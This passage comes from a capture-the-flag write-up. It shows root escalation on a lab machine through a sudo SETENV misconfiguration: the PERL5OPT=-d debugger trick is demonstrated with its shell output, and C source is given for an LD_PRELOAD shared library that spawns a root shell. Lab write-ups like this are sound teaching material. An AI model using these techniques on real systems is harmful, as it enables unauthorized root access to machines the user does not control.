 ```bash
    /usr/bin/echo $data > /root/diagnostic_files/diagnostic_${timestamp}.xml
fi
```

My next idea was to attempt setting a Perl environment variable that might enable me to elevate my privileges to root. During my search, I came across [this article](https://docstore.mik.ua/orelly/perl3/prog/ch19_02.htm) which discussed several available environment variables. The one that caught my attention was `PERL5OPT`, described as "Default command-line switches. Switches in this variable are treated as if they were on every Perl command line." Using `PERL5OPT`, I could apply command-line switches as root for `xml_pp`. By including `-d`, I could access the Perl debugger, potentially gaining elevated privileges.

```
jack@clicker:/opt$ sudo PERL5OPT=-d /opt/monitor.sh

Loading DB routines from perl5db.pl version 1.60
Editor support available.

Enter h or 'h h' for help, or 'man perldebug' for more help.

main::(/usr/bin/xml_pp:9):      my @styles= XML::Twig->_pretty_print_styles; # from XML::Twig
  DB<1> 
```

There's a debugger command, `!!`, which allows you to execute commands in a system subprocess. With this, it becomes straightforward to switch to a root shell and retrieve the flag!
```
  DB<1> !! whoami
root
  DB<2> !! /bin/bash
root@clicker:/opt# cat /root/root.txt
813a8198a[snip]
```

### Further Exploitation 

#### Root Via LD_PRELOAD
Another method of exploiting the `SETENV` to achieve root access involves the use of `LD_PRELOAD`. In case you're not familiar with `LD_PRELOAD`, it's an environment variable in Linux that enables you to define a list of shared libraries to be loaded before any other shared libraries when a program is launched.

Since we have access to `SETENV`, we can generate our custom shared library that will run with root privileges and spawn a shell. Below is the source code for `shell.c`:
```c
#include <stdio.h>  
#include <stdlib.h>  
#include <sys/types.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setuid(0);
	setgid(0);
	system("/bin/bash -p");
	}
```
